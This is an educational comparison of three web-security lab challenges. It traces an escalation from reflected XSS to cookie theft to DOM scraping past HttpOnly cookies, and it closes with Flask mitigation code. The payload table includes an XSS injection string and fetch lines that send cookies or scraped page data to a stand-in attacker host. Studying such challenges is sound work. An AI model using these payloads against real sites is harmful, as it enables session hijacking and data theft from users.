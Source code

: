 ### **Comparison of CSRF Challenges 3-5**

| Aspect          | CSRF3 (Basic XSS) | CSRF4 (Cookie Theft) | CSRF5 (HttpOnly Bypass) |
|----------------|------------------|---------------------|------------------------|
| **Server Vulnerability** | Reflected XSS in `/ephemeral` endpoint (no output encoding) | Same as CSRF3 + Session cookies accessible via JS | HttpOnly cookies but unprotected sensitive data in DOM |
| **Exploited Via** | CSRF → XSS (`alert()`) | CSRF → XSS → Cookie Exfiltration | CSRF → XSS → DOM Scraping → Data Exfiltration |
| **Key Challenge** | Trigger XSS in target origin | Steal cookies despite SOP | Extract data without cookie access |
| **Solution Approach** | Basic reflected XSS payload | `document.cookie` + exfil server | `fetch()` + DOM parsing + exfil |
| **Payload Example** | `<svg onload=alert(1)>` | `fetch(attacker.com?cookie=${document.cookie})` | `fetch('/').then(r=>r.text()).then(d=>exfil(d.match(/flag{.*}/)))` |
| **Defense Bypassed** | None (basic challenge) | Same-Origin Policy | HttpOnly cookies |
| **Thinking Analogy** | "Break window to enter" | "Copy keys through window" | "Read documents through window without entering" |

---

### **Evolution of Vulnerabilities & Solutions**

1. **CSRF3 (Basic XSS)**
   - **Vuln**: Naive reflection of user input
   - **Exploit**: Direct script injection
   - **Solution Mindset**: *Find reflection point → Inject code*

2. **CSRF4 (Cookie Theft)**
   - **Vuln**: Same as CSRF3 + exposed cookies
   - **Exploit**: Chain to steal authentication tokens
   - **Solution Mindset**: *Leverage XSS to escalate to session theft*

3. **CSRF5 (HttpOnly Bypass)**
   - **Vuln**: Protected cookies but data in DOM
   - **Exploit**: Same-origin content scraping
   - **Solution Mindset**: *Pivot from cookie theft to direct data extraction*

---

### **Thinking Process Analogy**

| Challenge | Physical World Analogy | Hacker Mindset |
|-----------|-----------------------|---------------|
| **CSRF3** | Seeing an open window | "I can shout through this window to trigger action" |
| **CSRF4** | Window + keys on sill | "I can use a hook to grab the keys through the window" |
| **CSRF5** | Locked window + visible documents | "I'll use binoculars to read the documents inside" |

---

### **Key Progression Insights**

1. **Vulnerability Depth**:
   - CSRF3: Simple reflection
   - CSRF4: Stateful impact (cookies)
   - CSRF5: Need for DOM awareness

2. **Exploit Sophistication**:
   ```mermaid
   graph LR
   A[CSRF3: Simple Alert] --> B[CSRF4: Data Exfiltration]
   B --> C[CSRF5: DOM Analysis]
   ```

3. **Defense Evasion**:
   - Each level requires bypassing one additional security control:
   - Level 3: No filters → Level 4: SOP → Level 5: HttpOnly

---

### **Unified Prevention Approach**

For all three challenges, these server-side fixes would mitigate the issues:

```python
# 1. Input Sanitization
@app.route('/ephemeral')
def ephemeral():
    msg = escape(request.args.get('msg', ''))  # HTML escaping
    return f"<div>{msg}</div>"

# 2. Security Headers
@app.after_request
def add_headers(resp):
    resp.headers['Content-Security-Policy'] = "default-src 'self'"
    resp.headers['X-XSS-Protection'] = "1; mode=block"
    return resp

# 3. Cookie Hardening
app.config.update(
    SESSION_COOKIE_HTTPONLY=True,
    SESSION_COOKIE_SAMESITE='Lax'
)
```